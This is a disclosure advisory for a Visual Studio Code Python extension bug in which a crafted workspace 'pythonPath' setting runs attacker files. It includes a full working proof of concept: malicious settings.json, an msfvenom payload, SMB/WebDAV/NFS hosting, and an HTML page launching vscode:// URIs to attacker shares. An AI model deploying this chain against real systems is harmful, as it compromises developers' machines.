








# Visual Studio Code Python Extension - pythonPath Code Execution

<https://twitter.com/justinsteven>

This advisory was written in August 2019, and released in March 2020. Some
details, such as macOS's `autofs` behaviour, may have changed in the meantime.

[@doyensec](https://twitter.com/Doyensec) also published an advisory for this bug [1]

## In brief

Visual Studio Code, with the Python extension installed, consults a
Workspace's `.vscode/settings.json` file to determine the path to the Python
interpreter.

An adversary can create a crafted Workspace with a malicious value for this
parameter. Upon opening the Workspace in Visual Studio Code, Python will
automatically be executed as per this configuration value and arbitrary code
can be executed.

This behaviour can be triggered from a web browser with some user interaction
required.

## Affected targets

Universal POC produced and tested against Visual Studio Code version 1.36.1
(Current as of August 2019) with Python extension version 2019.6.24221 (Current
as of August 2019) on the following platforms:

| Platform        | File Format delivery | Browser delivery (via URI handler) |
|-----------------|:--------------------:|:----------------------------------:|
| Win7            |          ✓           |                ✓(1)                |
| Win10           |          ✓           |                ✓(2)                |
| macOS 10.14.6   |          ✓           |                ✓(3)                |
| Linux           |          ✓           |                ?(4)                |

1. One-click exploitation via Chrome and Firefox, two-click exploitation via IE 11
2. One-click exploitation via Chrome, Firefox and Edge
3. One-click exploitation via Chrome, Firefox and Safari
4. Probably not exploitable unless `autofs` is installed.

**Update:** I believe macOS Catalina changed the default `autofs` setting that
made exploitation via the browser possible on macOS. Hence, modern macOS
machines may not be exploitable directly via the browser.

## Visual Studio Code

Visual Studio Code is a free MIT-licensed Electron-based source code editor
developed by Microsoft. It is available for all modern development platforms
(Windows, macOS and Linux) [2].

According to the Stack Overflow Developer Survey 2019 [3] it is the most
popular source code editor, with over 50% of participating developers and
Site Reliability Engineers reporting that they use it.

The prevalence of Visual Studio Code within the software development and
systems administration space means that vulnerabilities relating to Visual
Studio Code are attractive to attackers. Attacks against enterprise or FOSS
software developers and systems administrators can be, and have been,
leveraged in modern computing attacks [4] [5].

## The Python extension for Visual Studio Code

The Python extension for Visual Studio Code is produced by Microsoft. Visual
Studio Code does not ship with it by default. It is the most popular Visual
Studio Code extension available on the Visual Studio Marketplace [6] with
over 10 million unique installations as of July 2019 [7].

Upon opening any Python-type file in Visual Studio Code, the user will
automatically be prompted to install the extension from the Visual Studio
Marketplace:



The extension then remains installed and active within Visual Studio Code
until the user explicitly disables or removes it.

The extension's popularity may be due to this automatic prompting.

## A quick note on Workspaces

A Visual Studio Code "Workspace" is essentially a directory opened in Visual
Studio Code. This can be done through the `File --> Open Folder` function,
through an Explorer.exe "Open with Code" context menu item, or through
specifying a directory via `ARGV[1]` (e.g. `code ~/src/my_project/`)

When a Workspace is opened in Visual Studio Code, the file
`.vscode/settings.json` is used to load per-Workspace settings. These
settings can influence the core Visual Studio Code editor, as well as some
plugins. In this way it is similar to a Vim modeline.

The `settings.json` file was also key to a previous vulnerability disclosed
by the author [8].

Opening a directory within Visual Studio Code is a logical workflow activity
for developers, Site Reliability Engineers and security researchers. It
allows an entire codebase to be easily viewed and edited.

Consider the following case:

```
$ git clone https://github.com/foobar/fizzbuzz.git
$ code fizzbuzz/
```

## The pythonPath configuration setting

The Python extension depends on an instance of the Python interpreter. The
Python interpreter that is used is able to be configured through the
Workspace setting `python.pythonPath` within `.vscode/settings.json` [9]

The Python extension routinely executes the Python interpreter when editing
Python files - this is to support tasks such as autocomplete and linting.

If the `python.pythonPath` configuration value is specified as
`"${workspaceFolder}/zzzz"`, then the Python extension will attempt to use
the file `zzzz` within the Workspace directory as its Python interpreter.

Demo:

```
% mkdir -p workspace/.vscode

% cat > workspace/.vscode/settings.json
{
  "python.pythonPath": "${workspaceFolder}/zzzz"
}
^D

% touch workspace/a_python_file.py

% strace -f -s9999 -e execve code workspace/ 2>&1 | grep zzzz

[Visual Studio Code opens]

[Click on "a_python_file.py" in the left-hand file browser to trigger the execution of Python]

[pid 20826] execve("/tmp/tmp.tDil7a0yDS/workspace/zzzz", ["/tmp/tmp.tDil7a0yDS/workspace/zzzz", "-c", "print(1234)"], 0x3e4b5e37e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[pid 20827] execve("/tmp/tmp.tDil7a0yDS/workspace/zzzz/python", ["/tmp/tmp.tDil7a0yDS/workspace/zzzz/python", "-c", "print(1234)"], 0x3e4b5e37e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[pid 20828] execve("/tmp/tmp.tDil7a0yDS/workspace/zzzz/bin/python", ["/tmp/tmp.tDil7a0yDS/workspace/zzzz/bin/python", "-c", "print(1234)"], 0x3e4b5e37e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[pid 20829] execve("/tmp/tmp.tDil7a0yDS/workspace/zzzz/python4", ["/tmp/tmp.tDil7a0yDS/workspace/zzzz/python4", "-c", "print(1234)"], 0x3e4b5e37e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[pid 20830] execve("/tmp/tmp.tDil7a0yDS/workspace/zzzz/bin/python4", ["/tmp/tmp.tDil7a0yDS/workspace/zzzz/bin/python4", "-c", "print(1234)"], 0x3e4b5e37e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[pid 20831] execve("/tmp/tmp.tDil7a0yDS/workspace/zzzz/python3.6", ["/tmp/tmp.tDil7a0yDS/workspace/zzzz/python3.6", "-c", "print(1234)"], 0x3e4b5e37e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[pid 20832] execve("/tmp/tmp.tDil7a0yDS/workspace/zzzz/bin/python3.6", ["/tmp/tmp.tDil7a0yDS/workspace/zzzz/bin/python3.6", "-c", "print(1234)"], 0x3e4b5e37e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[... SNIP ...]
```

Note that upon opening a Python-type file within the Workspace, Visual Studio
Code attempts to use `zzzz` within the Workspace directory to execute the
Python code `print(1234)` to test the sanity of the assumed Python
interpreter (See
<https://github.com/microsoft/vscode-python/blob/e19dba8c2e465357c16929e5c61398d2525e70ca/src/client/common/configSettings.ts#L476-L483>)

Note also that Visual Studio Code attempts to use a set of binaries within
`zzzz/` such as `zzzz/python` and `zzzz/bin/python`. We'll come back to this
mechanism later when building a universal exploit.

For now, if we drop a shell script as `zzzz` then we can demonstrate
arbitrary code execution upon opening the Workspace and clicking on a
Python-type file.

Demo:

```
% cat > workspace/zzzz
#!/bin/sh
id > /tmp/win
^D

% chmod a+x workspace/zzzz

% cat /tmp/win
cat: /tmp/win: No such file or directory

% code workspace/

[Visual Studio Code opens]

[Click on "a_python_file.py" in the left-hand file browser to trigger the execution of Python]

% cat /tmp/win
uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)
```

## Overcoming the need for a victim to click on a Python-type file

We can overcome the need for user interaction (clicking on a Python-type file
within the Workspace) by setting the `files.associations` configuration value
such that all files are treated as Python-type files. This seems to include
the file that is shown as Visual Studio Code's "Welcome" screen, allowing the
exploit to trigger as soon as the malicious Workspace is opened.

Demo:

```
% mkdir -p workspace_with_file_association/.vscode

% cat > workspace_with_file_association/.vscode/settings.json
{
  "python.pythonPath": "${workspaceFolder}/zzzz",
  "files.associations": {"*": "python"}
}
^D

% strace -f -s9999 -e execve code workspace_with_file_association/ 2>&1 | grep zzzz
[pid 21746] execve("/tmp/tmp.tDil7a0yDS/workspace_with_file_association/zzzz", ["/tmp/tmp.tDil7a0yDS/workspace_with_file_association/zzzz", "-c", "print(1234)"], 0x82158a6e000 /* 41 vars */) = -1 ENOENT (No such file or directory)
[... SNIP ...]
```

This time, `zzzz` is executed immediately upon opening the Workspace in Visual Studio Code.

## Universal exploitation

We're able to cause Visual Studio Code to execute a file within the
Workspace, but we may not know the OS of our target. Because writing a
polyglot executable-type file for all platforms sounds painful, recall that
the `pythonPath` value is first executed as a file, and then it is used as a
directory that is assumed to contain one of several differently-named Python
interpreters. This behaviour of this second case differs on Windows vs. Unix
systems.

<https://github.com/microsoft/vscode-python/blob/e19dba8c2e465357c16929e5c61398d2525e70ca/src/client/common/configSettings.ts#L446-L471>
says:

```python
    if (isValidPythonPath(pythonPath)) {
        return pythonPath;
    }
    // Keep python right on top, for backwards compatibility.
    // tslint:disable-next-line:variable-name

    const KnownPythonExecutables = ['python', 'python4', 'python3.6', 'python3.5', 'python3', 'python2.7', 'python2'];

    for (let executableName of KnownPythonExecutables) {
        // Suffix with 'python' for linux and 'osx', and 'python.exe' for 'windows'.
        if (IS_WINDOWS) {
            executableName = `${executableName}.exe`;
            if (isValidPythonPath(path.join(pythonPath, executableName))) {
                return path.join(pythonPath, executableName);
            }
            if (isValidPythonPath(path.join(pythonPath, 'scripts', executableName))) {
                return path.join(pythonPath, 'scripts', executableName);
            }
        } else {
            if (isValidPythonPath(path.join(pythonPath, executableName))) {
                return path.join(pythonPath, executableName);
            }
            if (isValidPythonPath(path.join(pythonPath, 'bin', executableName))) {
                return path.join(pythonPath, 'bin', executableName);
            }
        }
    }
```

If the `python.pythonPath` value fails the `isValidPythonPath()` test (i.e.
an attempt to use it to `print(1234)` fails) then some more attempts are
made.

On Windows, the Python extension will attempt to execute:

* `${pythonPath}/python.exe`
* `${pythonPath}/scripts/python.exe`
* `${pythonPath}/python4.exe`
* `${pythonPath}/scripts/python4.exe`
* ... And so on

While on Linux and macOS it will execute:

* `${pythonPath}/python`
* `${pythonPath}/bin/python`
* `${pythonPath}/python4`
* `${pythonPath}/bin/python4`
* ... And so on

If we were to set `pythonPath` to `zzzz` and create the following files within the Workspace:

* `zzzz/python.exe` (Windows PE file)
* `zzzz/python` (Unix shebang file for which Linux and macOS generally provide a common interpreter)

Then we could create a universal exploit that targets Windows, Linux and macOS

## Proof of Concept

Create a universal exploit, zip it up and host it via a webserver.

* Linux/macOS payload: Write to `/tmp/pythonpath_win` (and pop Calculator.app if running on macOS)
* Windows payload: pop calc.exe

```
% mkdir -p pythonpath_poc/.vscode/zzzz        # hide the payloads within the .vscode directory

% cat > pythonpath_poc/.vscode/settings.json
{
  "python.pythonPath": "${workspaceFolder}/.vscode/zzzz",
  "files.associations": {"*": "python"}
}
^D

% cat > pythonpath_poc/.vscode/zzzz/python    # Linux/macOS Payload
#!/usr/bin/env python
import getpass
import platform

with open("/tmp/pythonpath_win", "w") as f:
  f.write("Code execution as: {}".format(getpass.getuser()))

if platform.system() == "Darwin":
  import subprocess
  subprocess.call(["open", "/Applications/Calculator.app"])

^D

% chmod a+x pythonpath_poc/.vscode/zzzz/python

% /opt/metasploit-framework/msfvenom \
    -p windows/exec \
    CMD=calc \
    -f exe \
    -o pythonpath_poc/.vscode/zzzz/python.exe         # Windows payload

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 189 bytes
Final size of exe file: 73802 bytes
Saved as: pythonpath_poc/.vscode/zzzz/python.exe

% zip -r pythonpath_poc.zip pythonpath_poc
  adding: pythonpath_poc/ (stored 0%)
  adding: pythonpath_poc/.vscode/ (stored 0%)
  adding: pythonpath_poc/.vscode/settings.json (deflated 9%)
  adding: pythonpath_poc/.vscode/zzzz/ (stored 0%)
  adding: pythonpath_poc/.vscode/zzzz/python.exe (deflated 40%)
  adding: pythonpath_poc/.vscode/zzzz/python (deflated 17%)

% python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

Opening the Workspace on Windows 7:



Opening the Workspace on Windows 10 (Windows Defender disabled so the msfvenom payload doesn't get pinched):



Opening the Workspace on macOS 10.14.6:



## Exploitation via the browser

Visual Studio Code registers a URI handler that allows Visual Studio Code to
be opened by the browser with a Workspace path of the attacker's choosing [10]
[11].

A valid URI looks like this:

```
vscode://file/<path_to_file>
```

On Windows we can use a SMB or WebDAV server to host the malicious Workspace.
WebDAV may be useful if SMB egress traffic is blocked, however, it is quite
unreliable in my testing. Sometimes I needed to first browse to the WebDAV
URI via explorer.exe before triggering the attack. Someone who knows more
about Windows and WebDAV than I might be able to trigger this session via the
browser alone, or otherwise make the attack more reliable.

This gives us:

* Two-click exploitation on Windows 7 (IE 11)
* One-click exploitation on Windows 7 (Chrome and Firefox) 
* One-click exploitation on Windows 10 (Edge, Chrome and Firefox)

On macOS we can use `autofs` (Installed and available by default) via
`/net/<SERVER>` to host the malicious Workspace via NFS [12].

This gives us:

* One-click exploitation on macOS 10.14.6 (latest at time of writing) - Safari, Chrome and Firefox

**Update:** I believe macOS Catalina changed the default `autofs` setting that
made exploitation via the browser possible on macOS. Hence, modern macOS
machines may not be exploitable directly via the browser using NFS.

Set up the SMB server:

```
% mkdir smbroot

% unzip -d smbroot pythonpath_poc.zip
   creating: smbroot/pythonpath_poc/                                                                                                                                                                                                                                       
   creating: smbroot/pythonpath_poc/.vscode/                                                                                                                                                                                                                               
  inflating: smbroot/pythonpath_poc/.vscode/settings.json
   creating: smbroot/pythonpath_poc/.vscode/zzzz/
  inflating: smbroot/pythonpath_poc/.vscode/zzzz/python.exe
  inflating: smbroot/pythonpath_poc/.vscode/zzzz/python

% sudo ~/impacket/examples/smbserver.py smbroot ./smbroot
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Set up the WebDAV server (Note: This allows anonymous RW access and so is not safe on hostile networks):

```
% mkdir webdavroot

% unzip -d webdavroot pythonpath_poc.zip                                                                                                                                                                                
Archive:  pythonpath_poc.zip
   creating: webdavroot/pythonpath_poc/
   creating: webdavroot/pythonpath_poc/.vscode/
  inflating: webdavroot/pythonpath_poc/.vscode/settings.json
   creating: webdavroot/pythonpath_poc/.vscode/zzzz/
  inflating: webdavroot/pythonpath_poc/.vscode/zzzz/python.exe
  inflating: webdavroot/pythonpath_poc/.vscode/zzzz/python

% ~/.local/bin/wsgidav --auth=anonymous --port=8888 --host=0.0.0.0 --root=$(pwd)/webdavroot     
Running without configuration file.
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  WsgiDAV/3.0.0 Python/2.7.16 Linux-4.9.0-9-amd64-x86_64-with-debian-10.0
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  Lock manager:      LockManager(LockStorageDict)
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  Property manager:  None
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  Domain controller: SimpleDomainController()
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  Registered DAV providers by route:
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :    - '/:dir_browser': FilesystemProvider for path '/home/justin/.local/lib/python2.7/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :    - '/': FilesystemProvider for path '/tmp/tmp.tDil7a0yDS/webdavroot' (Read-Write) (anonymous)
2019-08-03 17:28:36.480 - <139978409490240> wsgidav.wsgidav_app         WARNING :  Basic authentication is enabled: It is highly recommended to enable SSL.
2019-08-03 17:28:36.480 - <139978409490240> wsgidav.wsgidav_app         WARNING :  Share '/:dir_browser' will allow anonymous read access.
2019-08-03 17:28:36.480 - <139978409490240> wsgidav.wsgidav_app         WARNING :  Share '/' will allow anonymous write access.
2019-08-03 17:28:36.480 - <139978409490240> wsgidav                     WARNING :  Could not import lxml: using xml instead (up to 10% slower). Consider `pip install lxml`(see https://pypi.python.org/pypi/lxml).
2019-08-03 17:28:36.581 - <139978409490240> wsgidav                     INFO    :  Running WsgiDAV/3.0.0 Cheroot/6.5.5 Python/2.7.16
2019-08-03 17:28:36.581 - <139978409490240> wsgidav                     INFO    :  Serving on http://0.0.0.0:8888 ...
```

Set up the NFS server. Unzip `pythonpath_poc.zip` within an export named `/nfs/pub`.

Set up a HTML page to detect the OS and offer to launch an appropriate attack:

```html
% mkdir www                                                

% cd www

% cat > poc_urlhandler.html
<html>
<head>

  <script>

    // BEGIN GLOBAL CONFIG

    var smb_server = "172.18.0.4";
    var smb_share_name = "smbroot"
    var smb_directory_name = "pythonpath_poc"

    var webdav_server = "172.18.0.4";
    var webdav_port = "8888";
    var webdav_directory_name = "pythonpath_poc"

    var nfs_server = "172.17.16.134"
    var nfs_export_name = "nfs/pub"
    var nfs_directory_name = "pythonpath_poc"

    // END GLOBAL CONFIG

    function log_major(message) {
      const log_box = document.getElementById("log_box");
      if (log_box.innerHTML) {
        log_box.innerHTML = log_box.innerHTML + "\n[+] " + message;
      } else {
        log_box.innerHTML = "[+] " + message;
      }
    }

    function log(message) {
      const log_box = document.getElementById("log_box");
      if (log_box.innerHTML) {
        log_box.innerHTML = log_box.innerHTML + "\n" + message;
      } else {
        log_box.innerHTML = message;
      }
    }

    function detect_os() {
      const os_list = ["win", "mac", "linux"];
      for (var i = 0; i < os_list.length; i++) {
        if (window.navigator.platform.toLowerCase().indexOf(os_list[i]) == 0) {
          return os_list[i];
        }
      }
      return "unknown";
    }

    function redirect(uri) {
      log("Redirecting to " + uri + " in 3 seconds");
      setTimeout(function(uri) {
        document.location = uri;
      }, 3000, uri);
    }

    function launch_smb_attack() {
      const uri = "vscode://file//%3f/UNC/" + smb_server + "/" + smb_share_name + "/" + smb_directory_name;
      log_major("SMB attack launched");
      redirect(uri);
    }

    function launch_webdav_attack() {
      const uri = "vscode://file//%3f/UNC/" + webdav_server + "@" + webdav_port + "/" + webdav_directory_name;
      log_major("WebDAV attack launched");
      redirect(uri);
    }

    function launch_nfs_attack() {
      const uri = "vscode://file/net/" + nfs_server + "/" + nfs_export_name + "/" + nfs_directory_name;
      log_major("NFS attack launched");
      redirect(uri);
    }

    function prepare_page() {
      log_major("Detecting OS");
      const os = detect_os();
      log("Got: " + os);

      if (os === "win") {
        document.getElementById("launch_smb").style.display = "block";
        document.getElementById("launch_webdav").style.display = "block";
      } else if (os == "mac") {
        document.getElementById("launch_nfs").style.display = "block";
      } else {
        log_major("OS not supported");
        return;
      }
      log_major("Attack ready for launch");
    }
  </script>

</head>

<body onload="prepare_page()">

  <textarea id="log_box" rows="8" cols="80" readonly></textarea>

  <div id="launch_div">
    <button style="display:none" id="launch_smb" onClick="launch_smb_attack()">Launch Windows SMB attack</button>
    <button style="display:none" id="launch_webdav" onClick="launch_webdav_attack()">Launch Windows WebDAV attack</button>
    <button style="display:none" id="launch_nfs" onClick="launch_nfs_attack()">Launch macOS NFS attack</button>
  </div>

</body>

</html>
^D

% python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

(Note: This HTML requires user interaction to trigger the attack purely for
demonstration purposes. The attack can be triggered from JavaScript with no
page interaction required)

Triggering the SMB-based attack on Windows 7:



Triggering the SMB-based attack on Windows 10 (Windows Defender disabled so the msfvenom payload doesn't get pinched):



Triggering the WebDAV-based attack on Windows 10 (Windows Defender disabled so the msfvenom payload doesn't get pinched):



Triggering the NFS-based attack on macOS 10.14.6



## References

* [1] <https://blog.doyensec.com/2020/03/16/vscode_codeexec.html>
* [2] <https://en.wikipedia.org/wiki/Visual_Studio_Code>
* [3] <https://insights.stackoverflow.com/survey/2019#development-environments-and-tools>
* [4] <https://www.wired.com/story/supply-chain-hackers-videogames-asus-ccleaner/>
* [5] <https://blog.npmjs.org/post/180565383195/details-about-the-event-stream-incident>
* [6] <https://marketplace.visualstudio.com/search?target=VSCode&category=All%20categories&sortBy=Downloads>
* [7] <https://marketplace.visualstudio.com/items?itemName=ms-python.python>
* [8] <https://github.com/justinsteven/advisories/blob/master/2017_visual_studio_code_workspace_settings_code_execution.md>
* [9] <https://code.visualstudio.com/docs/python/environments#_manually-specify-an-interpreter>
* [10] <https://code.visualstudio.com/docs/editor/command-line#_opening-vs-code-with-urls>
* [11] <https://github.com/microsoft/vscode/pull/56727>
* [12] <https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass>
